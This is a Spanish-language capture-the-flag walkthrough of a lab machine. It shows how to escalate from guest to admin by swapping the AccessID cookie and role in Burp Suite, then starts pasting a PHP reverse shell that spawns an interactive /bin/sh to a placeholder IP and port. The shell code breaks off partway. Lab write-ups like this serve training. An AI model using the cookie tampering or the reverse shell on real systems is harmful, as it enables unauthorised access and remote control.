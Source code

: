 ![[2023-10-06_14-20.png]]

Info:
```css
	--AccessID:34322
	--Name:admin
	--Email:admin@megacorp.com
```

##### Ok necesitamos accesso como administrador para ver la pestana de #Uploads asi que vamos de nuevo al burpsuite e intentemos interceptar la peticion para cambiar nuestro AccessID de guest por el AccessID del usuario admin a ver si esto nos da mas informacion.

```css
	--:Burpsuite
	--:Intercep is On
	--:Ahora vamos a la pagia e intentamos entrat en Uploads
```

##### Notamos que la pagina se queda cargando asi que hemos interceptado la peticion correctamente. 
##### ahora Cambiamos la Cookie del Usuario guest por la cookie del usuario admin y el #role del usuario guest por admin: 


![[2023-10-06_14-51.png]]

##### Precionamos el boton #Forward para que la peticion con la modificacion que acabamos de hacer se envie y verificamos en la pagina.

![[2023-10-06_14-56.png]]

##### Podemos ver que ahora tenemos acceso a la pestana de Uploads. parace que podemos subir archivos a esta pagina. asi que intentaremos subir un archivo malisioso para intentar consegir una reverseShell

buscamos en internet una reverseshell.php

shell.php
```python
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
```